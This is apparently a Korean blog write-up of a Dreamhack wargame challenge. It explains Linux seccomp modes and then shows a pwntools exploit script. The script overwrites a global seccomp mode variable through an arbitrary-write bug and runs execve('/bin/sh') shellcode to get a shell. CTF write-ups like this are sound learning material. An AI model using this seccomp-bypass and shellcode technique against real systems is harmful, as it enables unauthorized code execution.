 ```yaml
---
layout: post
title:  "First Seccomp Bypass"
date:   2020-10-03
categories: ["2020","pwnable"]
update: 2020-10-03
comment: true
tags: [pwnable]
---
```






dreamhack 50등을 향한 마지막 문제로 Seccomp filtering을 우회하는 문제를 풀었다. 처음 만나본 거라서 천천히 강의 내용 읽고, 코드 읽고 풀어봤다.

# 🤔 SECCOMP?

## Introduction

![image](https://user-images.githubusercontent.com/51329156/94989512-5f870800-05b0-11eb-9d95-614e91286e02.png)

Linux kernel은 많은 `syscall`들을 유저권한의 프로세스들에게 노출시킨다. 근데 그 `syscall`들을 모두 쓰는 게 아니고, 일부만 쓰고 나머지 `syscall`들은 사용되지 않은 채로 둔다. 프로세스가 다른 위험한 `syscall`을 호출하게 두는 것은 보안상 문제가 있다. 이를 위해 사용하는 것이 **SECCOMP(SECure COMPuting mode)** 이다.

**Seccomp filtering**은 프로세스의 `syscall` 요청들을 필터링하는 매커니즘이다. 위의 사진을 보면 프로세스가 `syscall`을 한 후, filter들을 통과하지 못하면 `SIGKILL`으로 프로세스를 종료시킨다.



## ❓ HOW TO USE SECCOMP

**SECCOMP** 기능은 `prtcl()` 함수로 사용할 수 있다.

``` c
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);
```

`option` 에 **PR_SET_SECCOMP**를 주면 **SECCOMP**를 설정할 수 있다.

**SECCOMP**를 설정할 때 사용할 수 있는 모드가 3가지 있다.

**seccomp.h**

``` c
#define SECCOMP_MODE_DISABLED	0 /* seccomp is not in use. */
#define SECCOMP_MODE_STRICT	1 /* uses hard-coded filter. */
#define SECCOMP_MODE_FILTER	2 /* uses user-supplied filter. */
```

### SECCOMP_MODE_STRICT

`read`, `write`, `exit`, `sigreturn` 시스템 콜의 호출만 허용하고, 이외의 시스템 콜의 호출 요청이 들어오면 SIGKILL 시그널을 발생하고 프로그램을 종료한다.

아래처럼 설정한다:

``` c
prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT);
```



### SECCOMP_MODE_FILTER

필터링할 시스템 콜을 직접 지정해준다. 시스템콜을 관리할 때 **BPF(Berkeley Packet Filter)**라는 필터식을 이용해서 관리한다. **BPF**는 네트워크 패킷을 필터링하기 위해 만들어진 필터링 매커니즘인데, **SECCOMP**를 사용할 때도 이를 사용해 필터를 작성한다.

이 모드를 사용하려면 `no_new_privs` 비트가 설정되어 있어야 한다.

``` c
prctl(PR_SET_NO_NEW_PRIVS, 1)
```

그리고나서 아래처럼 설정한다:

```
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, args);
```

이 모드를 사용할 때는 세 번째 인자로 전달되는 구조체인 `sock_fprog`에 대한 이해가 필요한데, 이 부분은 문제랑은 상관이 없어서 패스하도록 하겠다.



# SECCOMP BYPASS

## 🔎 Code

필요한 부분만 추려봤다:

``` c
...
int mode = SECCOMP_MODE_STRICT;
...
    if ( prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == -1 ) {
        perror("prctl(PR_SET_NO_NEW_PRIVS)\n");
        return -1;
        }
    if ( prctl(PR_SET_SECCOMP, mode, &prog) == -1 ) {
        perror("Seccomp filter error\n");
        return -1;
        }
...
shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
...
    switch(idx) {
            case 1:
                if(cnt != 0) {
                    exit(0);
                }

                syscall_filter();
                printf("shellcode: ");
                read(0, shellcode, 1024);
                cnt++;
                break;
            case 2:
                sc = (void *)shellcode;
                sc();
                break;
            case 3:
                printf("addr: ");
                scanf("%ld", &addr);
                printf("value: ");
                scanf("%ld", addr);
                break;
            default:
                break;
        }
```

이상하다고 느낀 점 👓

- 배울 때는 **FILTER_MODE** 일 때 `prctl()`에게 세 번째 인자로 `sock_fprog`의 주소를 준다고 배웠다. 근데 **STRICT_MODE**인데도 줬다.
- `PR_SET_NO_NEW_PRIVS`도 마찬가지..

코드는 간단하다. `READ|WRITE|EXEC` 권한을 준 영역이 있다. 쉘코드를 입력할 수 있고, 실행도 할 수 있다. 원하는 주소에 값을 넣는 것도 가능하다.

일반적으로 사용하는 쉘코드는 `execve('/bin/sh')`의 기계어 코드다. `execve`는 **STRICT_MODE**에서 허용되지 않는 시스템 콜이다. 그래서 어떻게 우회해야 하지 생각하다가 `case 3`과 아까 이상하다고 느낀 점이 딱 맞아떨어져서 풀었다.

`mode`가 전역변수로 선언되어 있고, PIE가 꺼져있기 때문에 주소를 구할 수 있다. 현재 그 주소에 들어있는 값은 `0x1`이다. 이 것을  `0x2`로 바꿔주면  설정해준 필터가 없기 때문에 모든 시스템 콜을 사용할 수 있다! 그러면 `execve` 시스템 콜을 사용해서 쉘을 딸 수 있다 (`0x0`도 가능) 👍

## 🚀 Exploit

값을 바꾸기 전 **SECCOMP_MODE_STRICT**로 설정되어 있는 `mode` 변수 :

![image](https://user-images.githubusercontent.com/51329156/94990260-a297aa00-05b5-11eb-9a2a-6edf7f51e7ef.png)

저 변수의 값을 `case 3`을 이용해 `0x2`로 바꿔준다.

![image](https://user-images.githubusercontent.com/51329156/94990326-2b164a80-05b6-11eb-96c4-96b59eed8e92.png)

64비트 쉘코드를 `case 1`을 이용해 쓴다.

![image](https://user-images.githubusercontent.com/51329156/94990246-7bd97380-05b5-11eb-9d76-fe7f3cd4abcb.png)

`case 2`를 이용해 실행하면 된다.

### ex.py

``` python
#!/usr/bin/python
# coding=utf-8
from pwn import *
import sys

context.arch = 'x86_64'
context.log_level='debug'

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',22463)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

# Adderss
mode_addr=e.symbols['mode']

log.info("mode address: {}".format(hex(mode_addr)))
shellcode=asm(shellcraft.amd64.linux.sh())

p.sendlineafter("> ","3")
p.sendlineafter("addr: ",str(mode_addr))
p.sendlineafter("value: ",str(2))


p.sendlineafter("> ","1")
p.sendlineafter("shellcode: ",shellcode)

p.sendlineafter("> ","2")

p.interactive()
```

![image](https://user-images.githubusercontent.com/51329156/94990373-7f212f00-05b6-11eb-9032-6eb912991047.png)

❗ 새로 배운 개념이긴 했는데 문제가 워낙 쉽고 저번에 디버깅 연습해놓은 게 있어서 생각보다 금방 풀었다 !



> 🚀 참고
>
> [https://velog.io/@woounnan/LINUX-Seccomp](https://velog.io/@woounnan/LINUX-Seccomp) - HOW TO USE SECCOMP
>
> [http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2019/02/04/seccomp](http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2019/02/04/seccomp) - Introduction
>
> [https://dreamhack.io/learn/2/11#31](https://dreamhack.io/learn/2/11#31) - HOW TO USE SECCOMP

 